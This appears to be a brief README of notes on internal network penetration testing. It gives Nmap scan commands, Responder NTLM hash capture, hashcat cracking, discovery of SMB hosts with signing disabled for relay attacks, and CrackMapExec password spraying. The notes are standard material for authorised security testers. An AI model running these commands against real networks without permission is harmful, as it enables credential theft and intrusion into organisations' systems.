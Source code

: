# Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
- After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```

### SMB Relay attack

- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open
```
- Make sure you make turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```




